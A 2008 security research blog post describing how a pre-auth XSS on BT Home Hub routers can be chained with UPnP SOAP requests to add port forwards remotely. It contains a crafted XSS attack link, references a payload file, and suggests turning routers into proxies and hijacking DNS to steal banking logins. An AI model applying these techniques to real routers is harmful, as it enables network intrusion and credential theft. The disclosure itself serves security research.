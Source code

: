 ```yaml
---
title: BT Home Flub Pwnin The BT Home Hub (5) - exploiting IGDs remotely via UPnP
author: adrian-pastor
date: Thu, 10 Jan 2008 11:46:14 GMT
template: post.jade
category: fucked
---
```


It's known that [UPnP](http://www.upnp.org/resources/whitepapers.asp) is inherently insecure for a very simple reason: administrative tasks can be performed on a Internet Gateway Device (IGD) without needing to know the admin password whatsoever! This on its own is quite scary and I personally feel that although there is some research in the public domain, there is much more attention that needs to be paid to UPnP.

UPnP allows you to perform administrative functions. Some functions are very standardized and supported by most devices. Examples include obtaining network settings, and enabling port forwarding rules. Other functions are make/model specific. Some very scary functions such as obtaining administrative username and password pairs have been [reported](http://www.securityfocus.com/bid/7267/discuss) in the past. As a reminder, this works without submitting any administrative password whatsoever since UPnP is a authenticationless protocol. On top of this, most IGDs support UPnP by default.

After having read several UPnP security research materials I realized that all the described attacks assume that the attacker (be it human or malware) comes from inside the network. This post describes how to exploit IGDs remotely via UPnP _even when no services are publicly available_ (WAN interface).

### Preauth XSS + SOAP payload = remote UPnP exploitation

If you sniff yourself while running software that uses UPnP in the background to help you configure your router, you'll see that UPnP is nothing more than SOAP. Our AJAX knowledge tells us about a feature that allows us to craft arbitrary XML requests: the [XMLHttpRequest](http://www.w3.org/TR/XMLHttpRequest/) object. Trouble is, such object can only be used within the context of the site that the requests are submitted to. So if we host the malicious scripting code on a third-party site, and a victim user located in the same LAN as the target IGD visits such page, the request _wouldn't_ go through due to XMLHttpRequest same-origin policy restriction. Or put in a different way: you aren't allowed to make _XMLHttpRequest_s to any server except the server where your web page came from.

However, if you find a [pre-auth XSS vulnerability](/blog/bt-home-flub-pwnin-the-bt-home-hub-4) on the target device you can bypass such restriction. For instance, many devices such as the BT Home Hub and Speedtouch routers offer certain pages before authenticating. Some of these pages are cgi scripts which are vulnerable to XSS. Although offering certain "useless" functionalities before logging into the router might not seem like a big deal, it can actually lead to UPnP being exploited remotely, even if the web admin console is _not_ visible from the Internet!

The following is a non-malicious proof-of-concept exploit which sets up a port-forwarding rule from port 1337 on the WAN interface to port 445 on the internal IP address 192.168.1.64. Such IP address is the first usable IP address reserved for clients connected to Speedtouch and BT Home Hub routers. The exploit has been tested on BT Home Hub - Firmware version 6.2.6.B. Just to make things clear, UPnP is enabled by default on the BT Home Hub, just like most IGDs. If your Internet gateway is a BT Home Hub, clicking on the following link should add a new forward rule called **EVILFORWARDRULE**: [ATTACK](http://192.168.1.254/cgi/b/ic/connect/?url=%22%3e%3cscript%20src=).

In order to check if the port-forwarding rule was added successfully you can use [UPnP Port Forwarding Utility](http://www.codeproject.com/KB/IP/PortForward.aspx) and simply click on "Update list now" after the device has been discovered (device name should show on the top-left corner a few seconds later after launching the tool). You could of course use the technique and code explained in this post on any Internet gateway that supports UPnP and is a vulnerable to a preauth XSS vulnerability. If you manage to successfully test this attack on the BT Home Hub or any other device please let us know!

    [/files/2008/01/payload.xss](/files/2008/01/payload.xss)

### Zombie routers and the unvalidated _NewInternalClient_ bug

A bit of more UPnP hacking lead me to realize that the BT Home Hub is vulnerable to the (in)famous unvalidated _NewInternalClient_ bug. This bug allows you to choose external IP addresses instead of a LAN IP addresses as intended when setting up port-forwarding rules via UPnP. In this case, I reused the previous code and  changed the internal IP address (`192.168.1.64`) in the _NewInternalClient_ tag with the IP address of a random Internet web server and the value of the _NewInternalPort_ tag to `80`. This effectively allows an attacker to use the vulnerable BT Home Hub router as a proxy - aka onion router. In other words, when probing the router's NATed IP address on port 1337, the attacker is effectively probing the IP address and port number specified by the port-forwarding rule - except the routers IP address would be shown in logs of the target web server, as opposed to the attacker's real IP address. I thought this is a nice real example of how a vulnerable router can be used as a **zombie** by simply having a user visit a page with malicious scripting (XSS + UPnP SOAP request). Imagine running your favourite vulnerability scanner against a target site, while using the victim user's router as a proxy - sweet!

_There are other UPnP functionalities besides port forwarding rules that look potentially interesting from a hacking point of view. For instance, [SetDNSServer](http://www-adele.imag.fr/users/Didier.Donsez/dev/osgi/upnpgendevice/api/fr/imag/adele/bundle/upnp/igd/model/LANHostConfigManagementModel.html#setDNSServer(java.lang.String)) allows you to guess what, set the gateway's DNS server. Imagine someone changing your router's DNS server setting by simply visiting a webpage. After that you visit yourfavoritebank.com and guess what, you're actually visiting a malicious server that is harvesting all your banking login details! I'll leave the exercise of writing a remote UPnP exploit that changes the DNS server setting on the BT Home Hub (or any other vulnerable router) to the reader._
